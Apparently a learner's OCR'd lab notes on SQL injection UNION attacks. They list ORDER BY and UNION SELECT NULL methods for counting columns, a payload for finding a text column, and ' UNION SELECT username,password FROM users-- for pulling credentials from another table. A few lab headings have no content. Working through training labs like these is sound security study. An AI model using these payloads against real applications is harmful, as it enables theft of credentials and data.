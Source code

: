   
◇

## Retrieving multiple values within a single column

  
◇  
  
  
  
  

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

  
  
Qureries can be used for it: ***ORDER BY , UNION*** ***SELECT***,NULL  
***Testing Phase:***  
similar methods as previous: ‘ or "  
***Ensurity:***  
Ran my script to automate the column number finding  
***Exploit:***  
' UNION SELECT NULL,NULL,NULL,NULL--  
  
  

# Lab: SQL injection UNION attack, finding a column containing text

  
***Step*** ***01***: Find the number of columns available in the
database  
***Step*** ***02***: Find the column containing text  
***Query*** ***Injected***: ' UNION SELECT NULL,"any String",NULL--  
[![](../_resources/15-2.png)]()  
  
  
  

# Lab: SQL injection UNION attack, retrieving data from other tables

  
Query: ' UNION SELECT username,password FROM users--  
  

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

  
PRACTITIONER  
  

# Lab: SQL injection attack, querying the database type and version on Oracle
